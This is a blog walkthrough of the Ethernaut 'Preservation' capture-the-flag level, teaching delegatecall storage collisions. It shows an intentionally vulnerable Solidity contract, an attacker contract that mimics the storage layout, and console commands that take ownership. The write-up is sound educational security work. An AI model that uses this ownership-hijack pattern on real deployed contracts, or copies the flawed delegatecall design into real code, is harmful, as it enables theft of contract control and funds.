 ```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 16 - Preservation"
datePublished: Sat Apr 01 2023 15:13:20 GMT+0000 (Coordinated Universal Time)
cuid: clfy45dm0000009l7dnishra8
slug: ethernaut-walkthrough-for-noobs-16-preservation
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1680286086573/2b25328a-2c72-4062-8968-e0d3586cbd8b.jpeg
tags: ethereum, solidity, web3, 2articles1week, ethernaut

---
```


You would need the knowledge from Level 6 and Level 12 to solve this challenge. This challenge teaches us about `libraries`. They do not have storage and cannot hold state variables or functions. Hence, they should be labeled as such to avoid misusing their storage. The challenge level should be moderate, and fun to crack. You can probably understand that I need help when a smart contract security challenge seems fun.

> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
> 
> The goal of this level is for you to claim ownership of the instance you are given.

### Background

Let's first revisit concepts first.

`delegatecall()`: `A` executes a `delegatecall()` to `B`. `B`'s code is executed but with the storage, `msg.sender` and `msg.value` of `A`. [Read more](https://adityabajaj.hashnode.dev/ethernaut-walkthrough-for-noobs-6-delegation).

Slot Storage: Enough has been said on this in the previous two challenges. [Read More](https://adityabajaj.hashnode.dev/ethernaut-walkthrough-for-noobs-12-privacy).

[**Library**](https://www.geeksforgeeks.org/solidity-libraries/): To create a library, you need to use the keyword `library` instead of `contract`. Though **not relevant** to this challenge, I think everyone should know this. The flaw in this challenge could have been mitigated, if we had used `library` for LibraryContract, instead of a `contract`.

Here is the syntax:

```solidity
library <libraryName> {
    // block of code
}
```

### Code of Importance

I have explained what each line means in the comments.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library; //slot 0; stores address of 1st timezone library
  address public timeZone2Library; //slot 1; address of 2nd timezone library
  address public owner; //slot 2; address of owner
  uint storedTime; //slot 3; time stored by either of two timezone libraries. 
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)")); //creates a function selector for setTime function. Check notes[1]. 

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) { //takes two addresses as input 
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender; //sets owner as msg.sender 
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp)); //takes _timestamp as an input and makes a delegate call to the to the setTime function on the `library` at address timeZone1Library. We only control the _timeStamp. 
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));//Identical to the above function, takes _timestamp as an input and makes a delegate call to the setTime function on the `library` at address timeZone2Library. We only control the _timeStamp. 
  }
}

// Simple library contract to set the time
contract LibraryContract { 

  // stores a timestamp 
  uint storedTime; //slot 0

  function setTime(uint _time) public {
    storedTime = _time; //sets storedTime as _time, controlled by us, _time === _timeStamp that we put in. 
  }
}
```

Coming back to the main contract. Have you sensed the problem. Let's go over it once again.

In the Preservation Contract, we create some variables, stored in certain slots. We then execute `setFirstTime(1000)` ---&gt; delegates our call to `setTime(1000)` in the LibraryContract. ---&gt; Updates the state \*not of `storedTime` in the LibraryContract\* but the slot 0 of the Preservation contract i.e. `address public timeZone1Library;` since the context of the Preservation contract is used, which is the whole premise of a `delegatecall()`.

But we still need to update slot 2 i.e. the owner and not slot 0. How should we go on about it?

*Note\[1\]: A* ***function signature*** *is a combination of a function name and its parameters combined together. When this signature is hashed and the first 4 bytes of that call data are taken, we get a* ***function selector***\*. The selector basically tells the contract which function it should execute.\*

```solidity
//the code is dummy and only used for explanation, not used in the challenge. 

function transfer(address sender, uint256 amount) public { // a function. 
}

transfer(address,uint256) //function signature

bytes4(keccak256(bytes(function_signature))) //function selector --> 0xa9059cbb 
//this is the function selector for the transfer function signature above.
```

### Strategy

Now, we cannot modify slot 2 directly, we must first hijack slot 0 and replace the address of the library with our malicious contract, which will mimic the Preservation contract layout and change the owner to us by updating slot 2.

What should be the pseudo-code or basic outline of the attack?

1. Creating a malicious contract that mimics, the library contract but the address of the owner is in slot 2.
    
2. Calling the `setFirstTime()` function with the address of the malicious contract as parameters.
    
3. This will update the address of timeZone1Library to our contract.
    
4. Call the `setFirstTime()` function again with any value does not matter, this time, however, this function will however take the function selector of `setTime()` in our malicious contract.
    
5. This will update the `msg.sender` which is us, as owners in the original Preservation contract since this is a delegate call.
    

### Solution

1. Create a new level instance and fire up the console.
    
2. Open Remix, copy the code below and deploy the contract.
    
    ```solidity
    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.18;
    
    contract mimicsLibrary {
        address public useless; //slot 0
        address public useless2; //slot 1
        address public owner; //slot 2
    
        function setTime(uint _time) public {
            owner = msg.sender; //will change the owner to msg.sender
        }
    }
    ```
    
3. ```javascript
    //Do this in console. 
    await contract.setFirstTime("Add your deployed contract address")
    await contract.setFirstTime("8008135")
    await contract.owner() //check if you are the owner.
    ```
    
4. Submit Instance.
    

Preservation 😮‍💨